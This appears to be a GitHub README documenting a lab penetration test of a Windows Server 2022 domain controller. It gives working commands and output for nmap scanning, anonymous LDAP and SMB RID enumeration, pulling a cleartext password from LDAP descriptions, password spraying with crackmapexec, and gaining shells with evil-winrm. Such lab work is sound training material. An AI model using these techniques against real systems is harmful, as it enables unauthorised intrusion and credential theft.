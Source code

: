 # Active Directory Penetration Testing Lab
This project simulates a real-world internal penetration test in a controlled lab environment. The goal is to compromise a Windows Server 2022 Domain Controller and Internal Network using a Kali Linux attacker machine through enumeration, exploitation, and post-exploitation techniques.

Project Summary

- **Attacker Machine:** Kali Linux
- **Target Machine:** Windows Server 2022 (Active Directory Domain Controller)
- **Domain Name:** `orb.corp0`
- **Objective:** Gain initial access, enumerate the domain, escalate privileges, and extract sensitive data (e.g., password hashes, domain admin credentials).
- **Scope:** Internal black-box test — attacker has direct network access but no initial credentials.

Lab Architecture

| Machine          | Role                            | IP Address     |
|------------------|---------------------------------|----------------|
| Kali Linux       | Attacker                        | 192.168.50.10  |
| Windows Server   | Domain Controller (DC)          | 192.168.50.129 |
| Windows 10       | Windows client                  |                |

## 1. Information Gathering

### Nmap Scan

> **Tool:** `nmap`  
> **Purpose:** Identify open ports and running services on the target system.

```bash
nmap -sCV -p- 192.168.50.129

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows SMB file sharing
464/tcp   open  kpasswd5      Kerberos password change
593/tcp   open  ncacn_http    RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Global Catalog LDAP
3269/tcp  open  tcpwrapped
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0
5985/tcp  open  http          Windows Remote Management (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0
```
> **Purpose:** Identify open ports and running services on the target system.

## 2. Enumeration

### LDAP Enumeration with NetExec (nxc)

> **Tool:** `nxc`

> **Purpose:** Perform anonymous LDAP queries to extract usernames and domain structure

```bash
nxc ldap 192.168.50.129 -u '' -p '' --users

[*] Total records returned: 67
DC=orb,DC=corp
CN=Administrator,CN=Users,DC=orb,DC=corp
CN=Guest,CN=Users,DC=orb,DC=corp
CN=krbtgt,CN=Users,DC=orb,DC=corp
CN=alice wonderland,CN=Users,DC=orb,DC=corp  
CN=bob builder,CN=Users,DC=orb,DC=corp
CN=jerry cantrell,CN=Users,DC=orb,DC=corp
CN=kurt cobain,CN=Users,DC=orb,DC=corp 
CN=mssql_svc,CN=Users,DC=orb,DC=corp
CN=http_svc,CN=Users,DC=orb,DC=corp
CN=Floor,CN=Users,DC=orb,DC=corp
CN=IT,CN=Users,DC=orb,DC=corp
CN=HR,CN=Users,DC=orb,DC=corp
CN=Management,CN=Users,DC=orb,DC=corp
```
> **Success:** Anonymous access to LDAP allowed us to enumerate domain users and service accounts without credentials. 

### SMB Enumeration with NetExec RID Brute Force

> **Tool:** `nxc`

> **Purpose:** Enumerate RID values via SMB to uncover domain user accounts

```bash
nxc smb 192.168.50.129 -u 'anonymous' -p '' --rid-brute > domainusers.txt
1101: ORB\DnsAdmins (SidTypeAlias)
1102: ORB\DnsUpdateProxy (SidTypeGroup)
1103: ORB\alice.wonderland (SidTypeUser)
1104: ORB\bob.builder (SidTypeUser)
1105: ORB\jerry.cantrell (SidTypeUser)
1106: ORB\kurt.cobain (SidTypeUser)
1107: ORB\dana.scully (SidTypeUser)
1108: ORB\walter.white (SidTypeUser)
1109: ORB\james.bond (SidTypeUser)
1110: ORB\bruce.wayne (SidTypeUser)
```
> **Success:** Successfully enumerated valid domain users and groups using SMB anonymous access with RID brute-forcing

## 3. Exploitation 

Using the usernames previously enumerated, several attacks were launched to gain initial access and extract service account Kerberos tickets for offline password cracking.

### Technique 1: LDAP Description Disclosure

  > **Tool:** `ldapsearch`  
  > **Purpose:** Dump LDAP user attributes and look for password leaks or notes in the `description` field.
  
  ```bash
  ldapsearch -x -H ldap://192.168.50.129 -b "DC=orb,DC=corp" '(objectclass=person)' | grep -ia desc
  ```
  > **Results:**
  > **description:** 3edcxsw2#EDCXSW@
  > A cleartext password was found in the description field — likely a human error or documentation leak.
  
  ### Credentials Spraying
  > Used crackmapexec tool to test the discovered password against all enumerated usernames.
  ```bash
  crackmapexec smb 192.168.50.129 -u users.txt -p '3edcxsw2#EDCXSW@'
  
  [+] orb.corp\clark.kent:3edcxsw2#EDCXSW@ (Pwn3d!)
  ```
  
  >  Valid credentials discovered — clark.kent is a domain user.

### Shell Access via Evil-WinRM

```bash
evil-winrm -i 192.168.50.129 -u clark.kent -p '3edcxsw2#EDCXSW@'

*Evil-WinRM* PS C:\Users\clark.kent\Documents>
```
> Shell access gained on the Domain Controller as a low-privileged user.

### Technique 2: SMB Credentials Spraying Attack

  After enumerating valid usernames from LDAP and RID brute-forcing, credentials spraying attack was performed to discover weak passwords in use within the domain using a custom list of passwords. 
  
  ```bash
  ┌──(arllbartall㉿kali)-[~/Cyber/project1]
  └─$ crackmapexec smb 192.168.50.129 -u users.txt -p passwords.txt     
  SMB         192.168.50.129  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:orb.corp) (signing:True) (SMBv1:False)
  SMB         192.168.50.129  445    DC               [+] orb.corp\alice.wonderland:iloveyou
```
> A valid credential was discovered: alice.wonderland : iloveyou

### Shell Access using Evil-WinRM
```bash
  Info: Establishing connection to remote endpoint
  *Evil-WinRM* PS C:\Users\alice.wonderland\Documents> whoami
  orb\alice.wonderland
  *Evil-WinRM* PS C:\Users\alice.wonderland\Documents> 
```
